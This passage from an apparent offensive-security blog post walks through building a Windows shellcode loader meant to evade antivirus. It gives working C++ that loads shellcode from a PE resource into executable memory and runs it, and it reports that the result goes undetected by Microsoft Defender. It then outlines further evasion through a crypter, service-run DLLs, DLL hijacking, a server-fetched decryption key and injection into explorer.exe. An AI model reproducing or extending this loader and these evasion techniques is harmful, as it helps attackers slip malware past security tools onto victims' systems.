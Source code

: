 In our case, let's get inspired by this article (https://www.ired.team/offensive-security/code-injection-process-injection/loading-and-executing-shellcode-from-portable-executable-resources). We will store the shellcode in a PE Resource of an executable, and then execute it in main.

Let's create a new Microsoft Visual Studio project - select C++, and include the shellcode in the binary resources, like in linked article.

```
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include "resource.h"

int main()
{
    HRSRC sr = FindResource(NULL, MAKEINTRESOURCE(IDR_GETREKT1), L"GETREKT");
    DWORD sz = SizeofResource(NULL, sr);
    HGLOBAL srd = LoadResource(NULL, sr);
    void* e = VirtualAlloc(0, sz, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(e, srd, sz);
    ((void(*)())e)();
}
```

Next, let's hit compile button and compile our loader.

### What is the detection rate now?

![](http://news.baycode.eu/wp-content/uploads/2023/11/44.png)

## Not bad, not remarkable

For such a simple loader and a well known shellcode extraction/obfuscation tool - not bad, not remarkable. As we can see, our payload remains undetected by Microsoft Defender, which suffices for the scope of this particular case. Further obfuscation is unnecessary for this piece, although let's try to achieve even lower detection rate.

### Which AV engines did **not** detect our payload though?

![](http://news.baycode.eu/wp-content/uploads/2023/11/45.png)

## Let's make it lower

To boost stealth, we'll employ a crypter and a distinctive payload execution approach. This includes compiling  a .DLL file and creating Windows Services to run the .DLL, as well as utilizing DLL hijacking, which we'll delve into shortly. The decryption key is going to be fetched from the server and locally stored, eliminating the need for remote connections later. To avoid running in the current process memory, we'll create a thread and inject the payload into `explorer.exe`.

You can access the code on my GitHub: [https://github.com/krystianbajno](https://github.com/krystianbajno/articles).
